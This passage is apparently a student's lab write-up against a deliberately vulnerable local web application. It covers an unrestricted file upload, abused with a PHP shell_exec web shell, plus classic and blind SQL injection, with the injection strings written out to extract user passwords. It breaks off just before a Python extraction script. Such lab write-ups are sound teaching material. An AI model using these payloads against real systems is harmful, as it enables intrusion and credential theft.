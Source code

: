 <div style="text-align: center; margin-top: 0px;">
<img src="/assets/images/sec/netsec/lab3/2.png" width="80%" style="margin: 0 auto;">
</div>

### File Upload

From the source code, we can know that the server just receive all files and move it to `hackable/uploads` and then tell you the actual path. So we can upload a php file with RCE and then access the page. We can upload `upload.php`:

```php
<?php echo shell_exec('whoami') ?>
```

Then we access `http://127.0.0.1:4280/hackable/uploads/upload.php`, then we can find the result:

<div style="text-align: center; margin-top: 0px;">
<img src="/assets/images/sec/netsec/lab3/3.png" width="60%" style="margin: 0 auto;">
</div>

### SQL Injection

From the source code we know that the query command is:

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

So it just put the input in it. We can first close the quote and then use `union` to select the password. Now if we input `1' UNION SELECT first_name, password as last_name FROM users WHERE '1'='1` the command is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT first_name, password as last_name FROM users WHERE '1'='1';
```

Then we can get the password:

<div style="text-align: center; margin-top: 0px;">
<img src="/assets/images/sec/netsec/lab3/4.png" width="80%" style="margin: 0 auto;">
</div>

### SQL Injection (Blind)

From the source code, we can know that we can only get whether the user exists in the database (whether the query is success), and no other information. So we can use the query result to leak each char of the password. We can use the following SQL command to test each char:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '
crane' OR ascii(substr((SELECT password FROM users LIMIT 0, 1), 1, 1)) = 48
#';
```

So we should use `+` to replace the space and use `%23` to represent `#`. Then we can use the following python code to get the password:
